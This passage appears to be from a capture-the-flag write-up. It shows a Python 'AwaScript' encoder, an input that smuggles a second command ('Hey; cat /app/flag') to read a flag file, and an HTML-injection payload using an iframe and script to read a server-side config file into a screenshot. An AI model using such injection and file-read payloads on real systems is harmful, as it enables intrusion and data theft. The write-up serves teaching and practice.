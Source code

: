 ```python
    if character not in awafier_maps.AWASCII_MAP.keys():
        if character not in awafier_maps.SUBSTITUTION_MAP.keys():
            print("Character not supported by AWASCII")
            exit()
        else:
            character = awafier_maps.SUBSTITUTION_MAP[character]

    return binary_to_awawa(awafier_maps.AWASCII_MAP[character])


def awawafy(text: str):
    print("Awawawafying: ", text)
    start_flag = "awa"
    blow_flag = "awa awawa awawa"
    text_terms = []

    for character in text:
        text_terms.append(awawafy_character(character))

    text_section = " ".join(text_terms)

    result = " ".join([start_flag, text_section])
    print(result)

if __name__ == "__main__":
    parser = argparse.ArgumentParser(prog='AwaScript name converter')
    parser.add_argument("input_text")

    args = parser.parse_args()
    awawafy(args.input_text)
```

```
python .\awascii_validator\encoder.py "Hey; cat /app/flag"
```

### [web] pentest_on_stream

This is HTML Injection. The code on the server-side render the HTML file, take a screenshot, and then
send it to us. Our payload should load the flag and put it on the screen.

For my solution, I use iframe to render server-side file.
Due to the limited size of the actual rendered frame and scenes.json is huge,
I create a `p` tag with font size set to 10px to get the flag visible on screenshot.

```html
<p id="flag" style="font-size: 10px;"></p>
<iframe id="textf" src="/home/dockerUser/.config/obs-studio/basic/scenes/scenes.json" onload='readf()'></iframe>

<script>
function readf() {flag.innerHTML =textf.contentWindow.document.body.innerHTML}</script>
```
